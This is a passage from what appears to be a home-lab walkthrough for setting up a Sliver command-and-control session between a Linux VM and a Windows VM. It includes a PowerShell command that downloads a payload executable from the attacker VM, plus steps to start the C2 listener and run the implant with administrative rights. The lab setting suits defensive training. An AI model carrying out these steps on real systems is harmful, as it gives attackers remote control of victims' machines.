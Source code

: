 ```
 IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```


<img src="attachment/10efaae0f6e86d937de86a5d2b9df2bc.png" />

Snapshot the Windows VM for safety:

Snapshot name: “Malware staged”


5. **Starting the Command and Control Session**:
- Terminate the Python web server on the Linux VM with `Ctrl + C`.
- Relaunch the Sliver server:

```
 sliver-server
```

- Start the HTTP listener in Sliver:
```
 http
```

- On the Windows VM, execute the C2 payload from the download location using an Administrative PowerShell prompt:

```
  C:\Users\User\Downloads\[payload_name].exe
```

6. **Verifying and Interacting with the C2 Session**:
- Verify the session in Sliver and note the Session ID:
